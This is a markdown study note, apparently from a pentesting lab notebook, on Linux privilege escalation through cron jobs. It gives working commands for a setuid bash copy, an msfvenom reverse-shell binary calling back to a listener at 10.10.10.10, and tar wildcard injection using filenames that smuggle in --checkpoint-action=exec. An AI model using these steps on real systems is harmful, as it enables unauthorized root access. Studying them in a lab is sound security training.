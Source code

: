 ## Exploiting Crontab
​
Remember the path to success:
​

>[!Success]
>```
>/etc/crontab
>```

​
Take a look, bcuz could be some files executing and writeable for your user, then we can modify and attack.
​
​
### What if the file is not writeable but the PATH takes our home?
​
Imagine that the PATH variable starts with ==/home/user== which is our user's home directory.
​
Create a file called {the same way as the file running in cronjobs} in your home directory with the following contents:
​

>[!Tip] Chebra
>```
>#!/bin/bash
>cp /bin/bash /tmp/rootbash
>chmod +xs /tmp/rootbash
>```

​
Then ==chmod +x== and wait for the cronjob to run it. Finally, base on our little bash script, let's run the /tmp/rootbash command with -p to gain a shell running with root privileges.
​

>[!Tip] Chebra
>```
>/tmp/rootbash -p
>```

​
​
### And the Wildcards?
​
In this scenario we have an script been running by cronjob, so first we ==cat== it:
​

>[!Tip] Chebra
>```
>cat /usr/local/bin/compress.sh
>```

​
Imagine that the ==tar== command is being run with a wildcard (\*) in your home directory.
​
Take a look at the GTFOBins page for [tar](https://gtfobins.github.io/gtfobins/tar/). Note that tar has command line options that let you run other commands as part of a checkpoint feature.
​
Use msfvenom to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:
​

>[!Tip] Chebra
>```
>msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
>```

​
Transfer the shell.elf file to **/home/user/** on the Debian VM (you can use **scp** or host the file on a webserver on your Kali box and use **wget**). Make sure the file is executable:
​

>[!Tip] Chebra
>```
>chmod +x /home/user/shell.elf
>```

​
Create these two files in /home/user:
​

>[!Tip] Chebra
>```
>touch /home/user/--checkpoint=1
>```
>```
>touch /home/user/--checkpoint-action=exec=shell.elf
>```

​
When the tar command in the cron job runs, the wildcard (\*) will expand to include these files. Since their filenames are valid tar command line options, tar will recognize them as such and treat them as command line options rather than filenames.
​
Set up a netcat listener on your Kali box on port 4444 and wait for the cron job to run (should not take longer than a minute). A root shell should connect back to your netcat listener.  
​

>[!Tip] Chebra
>```
>nc -nvlp 4444
>```

​
Then if want to remove all: remember to exit out of the root shell and delete all the files you created to prevent the cron job from executing again:
​
rm /home/user/shell.elf
rm /home/user/--checkpoint=1
rm /home/user/--checkpoint-action=exec=shell.elf